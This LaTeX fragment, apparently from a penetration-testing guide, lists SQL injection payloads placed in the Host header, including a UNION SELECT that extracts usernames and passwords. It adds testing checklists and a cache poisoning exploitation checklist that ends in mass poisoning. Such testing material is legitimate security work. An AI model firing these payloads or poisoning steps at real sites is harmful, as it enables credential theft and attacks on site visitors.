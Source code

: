 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Testing Procedure}
\begin{lstlisting}[caption=SQL Injection Tests]
# Basic injection
Host: vulnerable.com' OR '1'='1

# Blind injection
Host: vulnerable.com' AND SLEEP(5)--

# Error-based
Host: vulnerable.com' AND 1=CONVERT(int, @@version)--

# Union-based
Host: vulnerable.com' UNION SELECT username,password FROM users--
\end{lstlisting}

\subsection{Checklist}
\begin{checklistbox}
 Test basic SQL injection
\end{checklistbox}
\begin{checklistbox}
 Test blind SQL injection
\end{checklistbox}
\begin{checklistbox}
 Observe error messages
\end{checklistbox}
\begin{checklistbox}
 Test time-based injection
\end{checklistbox}
\begin{checklistbox}
 Check for database errors in response
\end{checklistbox}

\section{Exploitation Checklist}

\subsection{Cache Poisoning Exploitation}
\begin{checklistbox}
 Identify reflected Host header
\end{checklistbox}
\begin{checklistbox}
 Use cache buster to isolate
\end{checklistbox}
\begin{checklistbox}
 Poison with malicious content
\end{checklistbox}
\begin{checklistbox}
 Verify poisoning with same buster
\end{checklistbox}
\begin{checklistbox}
 Remove buster for mass poisoning
\end{checklistbox}
\end{document}
